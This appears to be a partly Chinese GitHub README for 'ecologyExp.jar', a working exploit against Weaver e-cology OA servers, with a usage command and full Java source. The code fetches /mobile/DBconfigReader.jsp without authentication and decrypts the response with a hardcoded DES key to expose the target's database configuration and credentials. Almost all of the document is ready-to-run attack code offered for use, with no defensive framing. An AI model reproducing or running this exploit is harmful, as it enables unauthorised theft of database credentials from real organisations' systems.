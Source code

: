 # ecologyExp.jar
泛微oa数据库配置文件读取
java -jar ecologyExp.jar http://127.0.0.1

源码
package com.test;

import org.apache.http.HttpEntity;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClientBuilder;
import org.apache.http.util.EntityUtils;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.DESKeySpec;
import java.security.SecureRandom;

public class ReadDbConfig {
    private final static String DES = "DES";
    private final static String key = "1z2x3c4v5b6n";

    public static void main(String[] args) throws Exception {
        if(args[0]!=null&& args[0].length() !=0){
            String url = args[0]+"/mobile/DBconfigReader.jsp";
            System.out.println(ReadConfig(url));
        }else{
            System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
        }
    }
    
    private static String ReadConfig(String url) throws Exception {
        CloseableHttpClient httpClient = HttpClientBuilder.create().build();
        HttpGet httpGet = new HttpGet(url);
        CloseableHttpResponse response = httpClient.execute(httpGet);
        HttpEntity responseEntity = response.getEntity();
    
        byte[] res1 = EntityUtils.toByteArray(responseEntity);
    
        byte[] data = subBytes(res1,10,res1.length-10);
    
        byte [] finaldata =decrypt(data,key.getBytes());
    
        return (new String(finaldata));
    }
    
    private static byte[] decrypt(byte[] data, byte[] key) throws Exception {
    
        SecureRandom sr = new SecureRandom();
        DESKeySpec dks = new DESKeySpec(key);
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
        SecretKey securekey = keyFactory.generateSecret(dks);
        Cipher cipher = Cipher.getInstance(DES);
        cipher.init(Cipher.DECRYPT_MODE, securekey, sr);
    
        return cipher.doFinal(data);
    }
    
    public static byte[] subBytes(byte[] src, int begin, int count) {
        byte[] bs = new byte[count];
        System.arraycopy(src, begin, bs, 0, count);
        return bs;
    }

}

源： https://github.com/ianxtianxt/ecologyExp.jar 

